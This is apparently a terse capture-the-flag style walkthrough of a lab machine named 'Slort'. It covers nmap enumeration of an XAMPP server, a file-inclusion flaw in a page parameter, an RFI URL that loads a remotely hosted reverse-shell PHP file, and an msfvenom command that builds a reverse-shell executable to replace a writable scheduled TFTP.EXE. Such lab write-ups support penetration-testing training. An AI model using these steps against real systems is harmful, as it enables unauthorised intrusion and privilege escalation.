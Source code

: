 # Slort

### Enumeration

```
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.153.53:4443/dashboard/
```

/site - URL

Theme and contents:

[https://freehtml5.co/p-preview/?item=beryllium-free-architect-html5-template-built-with-bootstrap](https://freehtml5.co/p-preview/?item=beryllium-free-architect-html5-template-built-with-bootstrap)

http://192.168.153.53:4443/site/index.php?page=main.php

page parameter - LFI or RFI?

?page=\WINDOWS\system32\drivers\etc\hosts - LFI ok.

?page=http://192.168.49.153 - RFI ok.

### Initial Access

[https://www.revshells.com/](https://www.revshells.com) - Ivan Sincek - 80 - cmd -> shell.php

[http://192.168.153.53:4443/site/index.php?page=http://192.168.49.153:8080/shell.php](http://192.168.153.53:4443/site/index.php?page=http://192.168.49.153:8080/shell.php)

### PrivEsc

```
C:\Backup>type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>icacls TFTP.EXE
TFTP.EXE BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

So we can replace TFTP.EXE file with executable.

```
//$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.153 LPORT=80 -f exe -o TFTP.EXE
```
